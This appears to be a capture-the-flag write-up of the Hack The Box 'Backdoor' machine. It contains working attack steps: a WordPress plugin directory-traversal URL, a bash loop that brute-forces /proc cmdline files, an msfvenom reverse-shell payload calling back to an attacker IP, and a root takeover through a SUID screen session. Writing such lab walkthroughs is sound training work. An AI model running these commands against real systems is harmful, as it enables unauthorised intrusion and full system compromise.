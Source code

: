 ```yaml
---
title: "Backdoor Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/Backdoor/20220423032647.png"
categories:
  - Linux Machines
ribbon: blue
tags:
  [
    "Hackthebox",
    "wordpress",
    "Waste",
    "directory Traversal",
    "gdb server",
    "screen",
  ]
date: 2022-04-23T00:51:12+02:00
toc: true
draft: false
---
```


In this easy Linux box we are facing a wordpress plugin vulnerable to directory traversal letting us reading some files on the system , brute forcing the /proc/[pid] found a vulnerable gdb server running , exploiting it will gain low privilege shell , then abusing the screen binary to get the root access.

<!--more-->

# Scanning

starting with a basic scanning :

```bash
nmap -A -T5 10.10.11.125

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

then checking the full port scan :

```bash
nmap -p- 10.10.11.125

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
```

# Enumeration

- so let's start with the port 80 , it is a simple web application

![error](/assets/images/Backdoor/20220423062021.png)

- no parameters or any user interaction in the main pages.
- checking the source code we can see the `backdoor.htb` which we can add to the `/etc/hosts` and fuzzing Vhosts, But no results

![error](/assets/images/Backdoor/20220423062216.png)

- directory Busting with `dirsearch` default wordlist

```bash
dirsearch -u http://10.10.11.125/ -x 403,404

[00:18:04] 200 -   19KB - /license.txt
[00:18:09] 200 -    7KB - /readme.html
[00:18:13] 301 -  315B  - /wp-admin  ->  http://10.10.11.125/wp-admin/
[00:18:13] 500 -    3KB - /wp-admin/setup-config.php
[00:18:13] 400 -    1B  - /wp-admin/admin-ajax.php
[00:18:13] 200 -    0B  - /wp-config.php
[00:18:13] 200 -    0B  - /wp-content/
[00:18:14] 500 -    0B  - /wp-content/plugins/hello.php
[00:18:14] 200 -  776B  - /wp-content/upgrade/
[00:18:14] 200 -    1KB - /wp-content/uploads/
[00:18:14] 301 -  318B  - /wp-includes  ->  http://10.10.11.125/wp-includes/
[00:18:14] 200 -    0B  - /wp-includes/rss-functions.php
[00:18:14] 200 -    0B  - /wp-cron.php
[00:18:14] 200 -    6KB - /wp-login.php
```

- i should have noticed it from wappalayzer , however the Directory Busting reveals wordpress is running
- we can start enumerating possible users with **wpscan** or start fuzzing username and password but i spent alot of time at this rabbit hole with no lead.
- we can check the plugins from `/wp-content/plugins` path , we can know that from [this](https://github.com/WordPress/WordPress/tree/master/) repository showing the default structure of a wordpress web application.

![error](/assets/images/Backdoor/20220423063249.png)

- searching for it :

![error](/assets/images/Backdoor/20220423063357.png)

- first result seems promising let's view it :

```bash
searchsploit -x 39575.txt
```

![error](/assets/images/Backdoor/20220423063508.png)

- trying the POC we have :

![error](/assets/images/Backdoor/20220423063751.png)

- downloading the file , we can read it confirming the exploit is working

![error](/assets/images/Backdoor/20220423063824.png)

using :

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../etc/passwd
```

![error](/assets/images/Backdoor/20220423063953.png)

- we know their is a user **user** , now we can try reading other sensitive files on the system
- check [this](https://zsahi.wordpress.com/2018/09/10/file-inclusion/) blog , talking about some interesting files to check whenever you have Directory Traversal / LFI
- Trying a lot of them until `## Proc File System` , we can query processes
- remember the WASTE port we found in the full port scan, which we do not know the service running on it
- we can brute-force the Processes running on the system until we know what is the service running at this port
- using bash :

```bash
#!/bin/bash

i=2
while  [ 1 ]
do
curl  "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline"  2>/dev/null  > response.txt
((i++))
tmp=$(cat response.txt 2>/dev/null)
if [[ $tmp  == *"1337"* ]]
then
echo  "Process ID $i is the one."
break
fi
echo   "Process ID $i failed."
done
```

![error](/assets/images/Backdoor/20220423071608.png)

```bash
 ~/CTFs/HTB/Backdoor$ cat response2.txt
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>%
```

- and we know now **gdb server** is running on that port , searching for exploits found [this](https://www.exploit-db.com/exploits/50539) one

# Foothold

- trying the steps mentioned in the exploit :

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=4444 PrependFork=true -o rev.bin
```

![error](/assets/images/Backdoor/20220423072122.png)

- and we got a shell as user **user**

# Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

![error](/assets/images/Backdoor/20220423072343.png)

- screen binary with SUID doesn't have a clear path to gain root access, we can enumerate if the process is running with

```bash
ps -ef --forest
```

![error](/assets/images/Backdoor/20220423072550.png)

- i have uploaded the [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) to understand the process more

![error](/assets/images/Backdoor/20220423072808.png)

![error](/assets/images/Backdoor/20220423073116.png)

- reading about abusing other user's screen session [here](https://possiblelossofprecision.net/?p=1993)

![error](/assets/images/Backdoor/20220423073257.png)

- so we can attach to this root screen with :

```bash
# screen -x [user]/screen
screen -x root/root
```

![error](/assets/images/Backdoor/20220423073352.png)

### [BONUS] After root

running `crontab -e` to see how things were configured to work :

![error](/assets/images/Backdoor/20220423073455.png)

- we can see the gdb server and the Screen binary cron jobs
